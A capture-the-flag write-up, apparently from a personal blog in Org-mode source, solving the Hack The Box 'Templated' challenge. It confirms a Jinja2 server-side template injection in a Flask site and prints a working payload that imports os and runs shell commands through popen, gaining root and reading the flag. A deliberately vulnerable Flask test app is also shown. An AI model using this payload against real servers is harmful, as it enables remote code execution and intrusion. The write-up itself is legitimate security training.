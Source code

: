 #+TITLE: Templated
#+AUTHOR: Romeu Vieira

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: templated

When you enter the given URL, you are directly presented with this text:

#+begin_src
Site still under construction
Proudly powered by Flask/Jinja2
#+end_src

This information is here for a reason. You have two different technologies that
go hand-in-hand when doing simple Python web development: Flask and Jinja2.

First thing you can think of is that maybe Flask has some vulnerabilities that
can be exploited. And altough that could be true, the title of the challenge is
an hint.

=Templated=... and Jinja2 is a template engine. Therefore, this could be a
challenge where you have to know how to exploit a Server Side Template Injection
(SSTI).

First thing we can try, to verify this is doing something like this on the
Address Bar: =http://209.97.138.240:30840/{{1+1}}=. We are trying to check if
=1+1= is evaluated.

We get this after submitting the URL:

#+begin_src
Error 404
The page '2' could not be found
#+end_src

It seems ={{1+1}}= was evaluated to =2=! So it is confirmed that we are able to
do an SSTI.

An object we can access on a GET request is called =request=.
If we execute =http://209.97.138.240:30840/{{request}}= we get this string
=<Request 'http://209.97.138.240:30840/%7B%7Brequest%7D%7D' [GET]>= which
represents an object in Python.

From this object, we can see its methods and attributes. We may try doing a
request to =http://209.97.138.240:30840/{{dir(request)}}= but we will encounter
a 500 Internal Server Error without any relevant information.

For this, I just fired an instance of Flask on my side using the following code:

#+begin_src python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
    if request.args.get('c'):
        return render_template_string(request.args.get('c'))
    else:
        print(dir(request))
        return "test"

if __name__ == "__main__":
    app.run(debug=True)
#+end_src

Then I just executed =python app.py= and follow the URL.
Then the output of `dir(request)` will be printed to the console:

#+begin_src python
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__enter__', '__eq__', '__exit__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', '_cached_json', '_get_data_for_json', '_get_file_stream', '_get_stream_for_parsing', '_load_form_data', '_parse_content_type', 'accept_charsets', 'accept_encodings', 'accept_languages', 'accept_mimetypes', 'access_control_request_headers', 'access_control_request_method', 'access_route', 'application', 'args', 'authorization', 'base_url', 'blueprint', 'cache_control', 'charset', 'close', 'content_encoding', 'content_length', 'content_md5', 'content_type', 'cookies', 'data', 'date', 'dict_storage_class', 'disable_data_descriptor', 'encoding_errors', 'endpoint', 'environ', 'files', 'form', 'form_data_parser_class', 'from_values', 'full_path', 'get_data', 'get_json', 'headers', 'host', 'host_url', 'if_match', 'if_modified_since', 'if_none_match', 'if_range', 'if_unmodified_since', 'input_stream', 'is_json', 'is_multiprocess', 'is_multithread', 'is_run_once', 'is_secure', 'json', 'json_module', 'list_storage_class', 'make_form_data_parser', 'max_content_length', 'max_form_memory_size', 'max_forwards', 'method', 'mimetype', 'mimetype_params', 'on_json_loading_failed', 'origin', 'parameter_storage_class', 'path', 'pragma', 'query_string', 'range', 'referrer', 'remote_addr', 'remote_user', 'routing_exception', 'scheme', 'script_root', 'shallow', 'stream', 'trusted_hosts', 'url', 'url_charset', 'url_root', 'url_rule', 'user_agent', 'values', 'view_args', 'want_form_data_parsed']
#+end_src

From here we find =application= attribute which is relevant for what we want to
do.

By following this logic, now there is a possibility of using
[[https://www.python.org/download/releases/2.3/mro/][Python MRO]] to our advantage do actually
execute any shell command we want. We can import any python module by using =__import__= through the =request=
object from Flask:

#+begin_src
{{request.application.__globals__.__builtins__.__import__}}
#+end_src

A module that is used to execute shell commands is =os=, where we can use the
=popen= method. We can first try and check the id of the current user:

#+begin_src
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
#+end_src

The result is as follows:

#+begin_src
uid=0(root) gid=0(root) groups=0(root)
#+end_src

We are already root! Now let us see what `ls` gives us:

#+begin_src
bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
#+end_src

We can clearly see that we are on the root directory of the filesystem, which
has a file called =flag.txt=.

To read the flag, we just do =cat flag.txt=!

#+BEGIN_EXPORT html
<hr>
<footer>
<p><a class="footer" href="/index.html">Homepage</a></p>
<p><a class="footer" href="/writeups/htb/index.html">Back</a></p>
</footer>
#+END_EXPORT
